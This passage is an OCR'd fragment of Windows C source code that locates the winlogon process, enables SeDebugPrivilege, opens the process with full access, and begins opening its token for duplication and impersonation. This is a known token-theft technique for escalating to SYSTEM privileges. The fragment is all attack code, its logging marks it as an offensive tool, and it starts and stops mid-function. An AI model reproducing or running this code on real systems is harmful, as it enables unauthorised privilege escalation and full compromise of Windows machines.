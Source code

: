 ```c
                processwinloginPid = p32.th32ProcessID;
                break;
            }
        } while (Process32Next(hSnapshot, &p32));

        CloseHandle(hSnapshot);

        LUID luid;
        HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

        if (currentProc) {
            HANDLE TokenHandle = NULL;
            BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
            if (hProcessToken) {
                BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

                if (!checkToken) {
                    printf("[+] Current Process token Already Include SeDebugPrivilege \n");
                }
                else
                {
                    TOKEN_PRIVILEGES tokenPrivs;

                    tokenPrivs.PrivilegeCount = 1;
                    tokenPrivs.Privileges[0].Luid = luid;
                    tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

                    BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);
                    
                    if (adjustToken != 0)
                    {
                        printf("[+] Added SeDebugPrivilege to the current process token: %lx \n", adjustToken);
                    }
                }
                CloseHandle(TokenHandle);
            }
        }
        CloseHandle(currentProc);

        HANDLE hProcess = NULL;
        HANDLE TokenHandle = NULL;
        HANDLE NewToken = NULL;
        BOOL OpenToken;
        BOOL Impersonate;
        BOOL Duplicate;

        hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processwinloginPid);

        if (!hProcess)
        {
            printf("[-] Faild To Obtain a Handle To The Target PID \n");
        }
        printf("[+] Obtained Handle To The Target PID %lx\n", hProcess);

        OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

        if (!OpenToken)
        {
            printf("[-] Faild To Obtain Handle to The TOKEN %d\n", GetLastError());
```